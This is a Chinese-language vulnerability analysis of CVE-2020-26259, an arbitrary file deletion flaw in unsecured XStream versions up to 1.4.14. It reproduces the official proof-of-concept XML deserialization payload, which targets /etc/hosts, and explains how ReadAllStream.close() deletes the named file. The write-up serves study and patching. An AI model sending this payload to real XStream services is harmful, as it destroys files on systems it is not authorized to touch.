


# CVE-2020-26259 任意文件删除
- [CVE-2020-26259 任意文件删除](#cve-2020-26259-任意文件删除)
  - [影响版本](#影响版本)
  - [漏洞分析](#漏洞分析)
    - [is.close](#isclose)
  - [参考](#参考)
## 影响版本
version<=1.4.14 未开启安全框架的xstream版本.
## 漏洞分析
该漏洞触发原理与CVE-2020-26217-远程代码执行相同,不同在于后续利用的点不同,这次利用的为`com.sun.xml.internal.ws.util.ReadAllStream$FileStream`来任意文件删除.   
官方POC:
```xml
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
        <dataHandler>
          <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
            <contentType>text/plain</contentType>
            <is class='com.sun.xml.internal.ws.util.ReadAllStream$FileStream'>
              <tempFile>/etc/hosts</tempFile>
            </is>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <string>test</string>
  </entry>
</map>
```
### is.close
该漏洞在调用`get()`方法时都之前相同,不同在于进入`get()`之后,之前利用的是`readFrom(is)`,这次利用的是`is.close()`.

此时的is为`ReadAllStream`,进入到`ReadAllStream.close`后判断`tempFile`不为空后直接调用了`delete()`删除了文件.



## 参考
https://x-stream.github.io/CVE-2020-26259.html